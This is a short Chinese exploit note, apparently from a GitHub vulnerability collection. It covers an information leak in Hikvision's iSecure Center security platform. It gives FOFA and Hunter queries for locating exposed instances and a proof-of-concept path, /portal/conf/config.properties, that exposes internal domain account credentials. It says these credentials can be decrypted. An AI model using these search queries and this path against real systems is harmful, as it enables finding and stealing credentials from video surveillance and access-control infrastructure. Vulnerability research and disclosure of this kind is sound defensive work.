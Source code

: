 
## 海康威视综合安防管理平台信息泄露

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，海康威视综合安防管理平台信息存在信息泄露（内网集权账户密码）漏洞，可以通过解密软件，解密用户名密码。

## fofa
```
app="HIKVISION-综合安防管理平台"
```

## hunter
```
web.title="综合安防管理平台"
```

## poc
```
/portal/conf/config.properties

```
## 漏洞复现
![](./assets/20231021220812.png)
